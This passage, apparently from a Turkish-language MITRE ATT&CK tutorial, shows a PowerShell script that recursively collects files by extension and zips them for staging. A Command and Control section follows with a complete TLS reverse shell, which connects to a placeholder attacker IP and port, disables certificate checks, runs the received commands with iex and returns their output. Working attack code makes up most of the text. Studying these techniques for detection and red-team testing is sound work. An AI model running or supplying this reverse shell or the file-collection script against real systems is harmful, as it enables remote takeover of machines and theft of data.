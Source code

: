     New-Item -Type Directory $outputZip -ErrorAction Ignore -Force | Out-Null
    
    Function Search-Files {
      param (
        [string]$directory
      )
      $files = Get-ChildItem -Path $directory -File -Recurse | Where-Object {
        $fileExtensions -contains $_.Extension.ToLower()
      }
      return $files
    }
    
    $foundFiles = Search-Files -directory $startingDirectory
    if ($foundFiles.Count -gt 0) {
      $foundFilePaths = $foundFiles.FullName
      Compress-Archive -Path $foundFilePaths -DestinationPath "$outputZip\data.zip"
    
      Write-Host "Zip file created: $outputZip\data.zip"
      } else {
          Write-Host "No files found with the specified extensions."
      }
    ```
    

---

## **Command and Control (TA0011)**

Ele geçirilen sistemler kontrol edilir. Komuta kontrol, saldırganın, hedefin ağı içinde kendi kontrolleri altındaki sistemlerle iletişim kurmak için kullanabilecekleri tekniklerden oluşur. Saldırganlar genellikle tespit edilmekten kaçınmak için normal, beklenen trafiği taklit etmeye çalışırlar. Bir saldırganın, hedef ağ yapısına ve savunmasına bağlı olarak çeşitli gizlilik seviyelerinde komuta kontrol kurabileceği birçok yol vardır.

1. ****Encrypted Channel (T1573)****
    
    Örnek komut:
    
    ```powershell
    $server_ip = #{server_ip}
    $server_port = #{server_port}
    $socket = New-Object Net.Sockets.TcpClient('#{server_ip}', '#{server_port}')
    $stream = $socket.GetStream()
    $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
    $sslStream.AuthenticateAsClient('fakedomain.example', $null, "Tls12", $false)
    $writer = new-object System.IO.StreamWriter($sslStream)
    $writer.Write('PS ' + (pwd).Path + '> ')
    $writer.flush()
    [byte[]]$bytes = 0..65535|%{0};
    while(($i = $sslStream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data | Out-String ) 2>&1;
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $sslStream.Write($sendbyte,0,$sendbyte.Length);$sslStream.Flush()}
    ```
    